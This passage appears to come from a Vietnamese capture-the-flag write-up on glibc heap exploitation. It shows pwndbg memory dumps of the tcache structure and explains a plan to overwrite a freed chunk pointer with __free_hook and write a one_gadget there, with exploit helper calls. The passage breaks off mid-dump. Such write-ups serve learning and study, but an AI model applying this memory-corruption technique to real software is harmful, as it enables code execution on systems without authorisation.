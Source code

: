         - Ta thấy chương trình có 1 chunk để quản lý địa các chunk đã được free
            
            ```python
            pwndbg> heap
            Allocated chunk | PREV_INUSE
            Addr: 0x555555559000
            Size: 0x291
            
            pwndbg> x/60xg 0x555555559000
            0x555555559000: 0x0000000000000000      0x0000000000000291
            0x555555559010: 0x0000000000000000      0x0000000000000000
            0x555555559020: 0x0000000000000000      0x0000000000000000
            0x555555559030: 0x0000000000000000      0x0000000000000000
            0x555555559040: 0x0000000000000000      0x0001000000000000
            0x555555559050: 0x0000000000000000      0x0000000000000000
            0x555555559060: 0x0000000000000000      0x0000000000000000
            0x555555559070: 0x0000000000000000      0x0000000000000000
            0x555555559080: 0x0000000000000000      0x0000000000000000
            0x555555559090: 0x0000000000000000      0x0000000000000000
            0x5555555590a0: 0x0000000000000000      0x0000000000000000
            0x5555555590b0: 0x0000000000000000      0x0000000000000000
            0x5555555590c0: 0x0000000000000000      0x0000000000000000
            0x5555555590d0: 0x0000000000000000      0x0000000000000000
            0x5555555590e0: 0x0000000000000000      0x0000000000000000
            0x5555555590f0: 0x0000000000000000      0x0000000000000000
            0x555555559100: 0x0000000000000000      0x0000000000000000
            0x555555559110: 0x0000000000000000      0x0000000000000000
            0x555555559120: 0x0000000000000000      0x0000000000000000
            0x555555559130: 0x0000000000000000      0x0000000000000000
            0x555555559140: 0x0000000000000000      0x0000000000000000
            0x555555559150: 0x0000000000000000      0x0000000000000000
            0x555555559160: 0x0000000000000000      0x0000000000000000
            0x555555559170: 0x0000000000000000      0x0000000000000000
            0x555555559180: 0x0000000000000000      0x00005555555592c0   <- addr freed chunk
            0x555555559190: 0x0000000000000000      0x0000000000000000
            0x5555555591a0: 0x0000000000000000      0x0000000000000000
            0x5555555591b0: 0x0000000000000000      0x0000000000000000
            0x5555555591c0: 0x0000000000000000      0x0000000000000000
            0x5555555591d0: 0x0000000000000000      0x0000000000000000
            ```
            
            - Ta thấy địa chỉ của chunk vừa free nằm ở đây nếu ta malloc 1 size phù hợp thì địa chỉ này sẽ được sử dụng để malloc, vậy ý tưởng của ta là sẽ overwrite địa chỉ của free chunk thành __free_hook thì lần malloc sau với size đó ta sẽ malloc được vùng nhớ của __free_hook và ghi one_gadget vào.
            - Ta sẽ malloc 1 chunk rồi free nó
                
                ```python
                create(0x300)
                delete()
                
                pwndbg> x/80xg 0x555555559000
                0x555555559000: 0x0000000000000000      0x0000000000000291
                0x555555559010: 0x0000000000000000      0x0000000000000000
                0x555555559020: 0x0000000000000000      0x0000000000000000
                0x555555559030: 0x0000000000000000      0x0000000000000000
                0x555555559040: 0x0000000000000000      0x0001000000000000
                0x555555559050: 0x0000000000000000      0x0000000000000000
                0x555555559060: 0x0000000000000000      0x0000000000000000
                0x555555559070: 0x0000000000000000      0x0001000000000000
                0x555555559080: 0x0000000000000000      0x0000000000000000
                0x555555559090: 0x0000000000000000      0x0000000000000000
                0x5555555590a0: 0x0000000000000000      0x0000000000000000
                0x5555555590b0: 0x0000000000000000      0x0000000000000000
                0x5555555590c0: 0x0000000000000000      0x0000000000000000
                0x5555555590d0: 0x0000000000000000      0x0000000000000000
                0x5555555590e0: 0x0000000000000000      0x0000000000000000